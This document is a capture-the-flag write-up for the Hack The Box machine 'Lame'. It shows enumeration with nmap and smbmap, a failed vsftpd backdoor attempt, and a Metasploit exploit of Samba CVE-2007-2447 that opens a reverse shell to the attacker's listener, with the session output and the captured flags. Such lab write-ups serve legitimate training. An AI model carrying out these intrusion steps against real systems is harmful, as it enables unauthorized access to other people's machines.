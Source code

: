 # HTB: Lame
**Date:** 2025-07-02

## 🔍 Enumeration
```bash
nmap -p- --min-rate=1000 -T4 10.10.10.3
```
**Results:**
```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd
```

### SMB Enumeration
```bash
smbmap -H 10.10.10.3
```
**Results:**
```
[+] IP: 10.10.10.3:445	Name: 10.10.10.3          	Status: Authenticated
	Disk    | Permissions | Comment
	--------|-------------|--------------------------
	print$  | NO ACCESS   | Printer Drivers
	tmp     | READ, WRITE | oh noes!
	opt     | NO ACCESS   | 
	IPC$    | NO ACCESS   | IPC Service (Samba 3.0.20-Debian)
	ADMIN$  | NO ACCESS   | IPC Service (Samba 3.0.20-Debian)
```

```bash
smbclient -N \\10.10.10.3\tmp
```
Successfully connected and browsed the `tmp` share.

---

## Exploitation

### FTP – Vsftpd 2.3.4 (CVE-2011-2523)
- **Exploit Used:** `exploit/unix/ftp/vsftpd_234_backdoor`
- **Outcome:** Not exploitable — port 6200 blocked by firewall.

### SMB – Samba 3.0.20-Debian (CVE-2007-2447)
- **Exploit Used:** `exploit/multi/samba/usermap_script`  
- **Vulnerability:** Username map script command execution  
- **Payload:** Reverse TCP shell via Metasploit

```bash
msf6 > use exploit/multi/samba/usermap_script
```
```
[*] Started reverse TCP handler on 10.10.16.5:4444 
[*] Command shell session 1 opened (10.10.16.5:4444 -> 10.10.10.3:43580)
```

## Privilege Escalation
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
id
uid=0(root) gid=0(root)
```

**Flags:**
```bash
cat /home/makis/user.txt
e95ac31f8132e26eac44c2fe58792cfa

cat /root/root.txt
4f8f2ae18815f97ffdf7975965d6b624
```

---

## Tools Used
- `nmap`, `smbmap`, `smbclient`, `metasploit`, `searchsploit`, `nc`, `netstat`

---

## Key Takeaways
- Exploiting outdated Samba services is still viable on legacy boxes.
- Port filtering can block shell return paths even if a vuln exists (FTP port 6200).
- Always enumerate SMB shares even without creds — `smbclient` often provides an initial foothold.
- Samba CVE-2007-2447 is a classic — worth mastering for CTFs and exams like OSCP.